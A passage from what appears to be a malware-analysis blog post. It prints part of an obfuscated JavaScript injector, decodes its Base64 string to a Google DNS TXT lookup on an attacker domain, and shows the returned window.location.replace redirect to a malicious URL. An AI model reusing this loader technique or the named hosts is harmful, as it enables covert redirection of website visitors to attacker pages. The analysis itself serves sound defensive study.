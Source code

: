         _0x47b474(++_0x26a9cf);
    }(_0x3bf9f2, 0x1b2));
    var _0x58060d = function(_0x13b5d5, _0x174409) {
        _0x13b5d5 = _0x13b5d5 - 0x0;
        var _0x1aae1c = _0x3bf9f2[_0x13b5d5];
        return _0x1aae1c;
    };
    var _0x48f014 = new XMLHttpRequest();
    _0x48f014[_0x58060d(_0x58f7('0xe'))](_0x58060d(_0x58f7('0xf')), v);
    _0x48f014[_0x58060d(_0x58f7('0x10'))] = function() {
        if (_0x48f014[_0x58060d(_0x58f7('0x11'))] == 0xc8 && _0x48f014[_0x58060d(_0x58f7('0x12'))] == 0x4) {
            var _0x45edda = JSON[_0x58060d(_0x58f7('0x13'))](_0x48f014[_0x58060d(_0x58f7('0x14'))]);
            var _0x2e08f9 = _0x45edda[_0x58060d(_0x58f7('0x15'))][0x0][_0x58f7('0x16')];
            var _0x599d3c = document[_0x58060d(_0x58f7('0x17'))](_0x58060d(_0x58f7('0x18')));
            _0x599d3c[_0x58060d(_0x58f7('0x19'))] = _0x2e08f9[_0x58060d(_0x58f7('0x1a'))](0x1, _0x2e08f9[_0x58f7('0x1b')] - 0x1);
            document[_0x58f7('0x1c')][_0x58060d(_0x58f7('0x1d'))](_0x599d3c);
        }
    };
    _0x48f014[_0x58060d('0xd')]();
}
{% endhighlight JavaScript %}

Carefully save this script to a new malicious.js file on the sandbox for later.

The following lines jump out after a quick review:

1. Line 1 contains a BASE64 string
1. Line 2 an array of functions that are likely called in the code
1. Line 32 XMLHttpRequest

Using [CyberChef](https://gchq.github.io/CyberChef/) Line 1 is decoded to:

```
https://dns.google.com/resolve?name=fetch.slzxkcee.glamisbound.com&type=TXT
```

This is a URL for google's DNS lookup service.  More specifically it is doing a lookup for a TXT DNS record for subdomain fetch.slzxkcee.glamisbound.com.

Doing this lookup from the sandbox returns the following JSON response:

{% highlight JSON %}
{"Status": 0,"TC": false,"RD": true,"RA": true,"AD": false,"CD": false,
"Question":[ {"name": "fetch.slzxkcee.glamisbound.com.","type": 16}],
"Answer":[ {"name": "fetch.slzxkcee.glamisbound.com.",
"type": 16,"TTL": 119,
"data": "\"window.location.replace(\"http://www.67595bfg36abp.multiproinvest.com/80999.html\");\""}],
"Comment": "Response from 104.193.252.177."}
{% endhighlight JSON %}

Each time this lookup is done, the server responds with a different answer which contains a different URL.
